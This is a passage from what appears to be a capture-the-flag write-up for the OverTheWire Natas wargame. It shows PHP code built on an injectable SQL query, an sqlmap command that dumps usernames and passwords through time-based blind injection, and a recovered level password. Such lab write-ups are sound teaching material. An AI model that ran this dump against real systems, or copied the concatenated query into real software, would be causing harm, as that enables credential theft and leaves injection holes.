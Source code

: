 ```php
    
    $query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
    if(array_key_exists("debug", $_GET)) {
        echo "Executing query: $query<br>";
    }

    $res = mysql_query($query, $link);
    if($res) {
    if(mysql_num_rows($res) > 0) {
        //echo "This user exists.<br>";
    } else {
        //echo "This user doesn't exist.<br>";
    }
    } else {
        //echo "Error in query.<br>";
    }

    mysql_close($link);
} else {
?>
```

There is no error displayed so time based blind SQLi needs to be performed, used SQLMAP to perform the Injection

```console
sqlmap -r req -p username --technique T --dbms mysql -D natas17 --level 3 --risk 3 -T users -C username,password --dump
```

natas18 : xvKIqDjy4OPv7wCRgDlmj0pFsCsDjhdP

# Level 18-19

![/assets/images/OverTheWire/Natas/Untitled%2011.png](/assets/images/OverTheWire/Natas/Untitled%2011.png)

```php
function my_session_start() {
    if(array_key_exists("PHPSESSID", $_COOKIE) and isValidID($_COOKIE["PHPSESSID"])) {
    if(!session_start()) {
        debug("Session start failed");
        return false;
    } else {
        debug("Session start ok");
        if(!array_key_exists("admin", $_SESSION)) {
        debug("Session was old: admin flag set");
        $_SESSION["admin"] = 0; // backwards compatible, secure
        }
        return true;
    }
    }
```